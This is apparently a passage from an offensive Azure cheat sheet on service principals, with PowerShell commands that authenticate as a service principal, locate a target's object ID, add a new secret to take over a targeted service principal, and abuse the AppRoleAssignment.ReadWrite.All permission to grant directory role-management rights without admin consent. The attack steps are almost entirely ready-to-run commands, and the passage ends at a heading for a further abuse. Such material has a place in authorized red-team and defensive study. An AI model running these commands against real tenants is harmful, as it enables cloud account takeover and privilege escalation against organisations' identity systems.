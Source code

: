
<a id='sps'></a>
## Service Principals

###  Authenticate with SP credentials
```shell
$tid = ''
$appid = ''
$password = ''

$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appid, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
```

### Identify the Object ID of a targeted SP

**Note**: the OID of an SP is different from the Object ID of its application registration.

```shell
Get-AzADServicePrincipal -Searchstring '<cool app>'
```

### Create a new secret for a targeted SP (takeover)
```shell
$oid = ''
New-AzADSpCredential -ObjectId $oid
```

### Abuse the `AppRoleAssignment.ReadWrite.All` permission

**Description**: assigns the `RoleManagement.ReadWrite.Directory` permission to the targeted SP without the need for admin consent.

**Note**: identifiers for other application permissions can be found [here](https://learn.microsoft.com/en-us/graph/permissions-reference).

```shell
$targetedSpObjectId = '<OID of targeted SP - Not App Reg>'

$msgraphSpObjectId = (Get-AzADServicePrincipalAppRoleAssignment -ServicePrincipalId $targetedSpObjectId | Where-Object -Property ResourceDisplayName -EQ -Value "Microsoft Graph" | Select-Object -First 1).ResourceId
$roleManagementReadWriteDirectory = '9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8'

New-AzADServicePrincipalAppRoleAssignment -ServicePrincipalId $targetedSpObjectId -ResourceId $msgraphSpObjectId -AppRoleId $roleManagementReadWriteDirectory
```

### Abuse the `RoleManagement.ReadWrite.Directory` permission
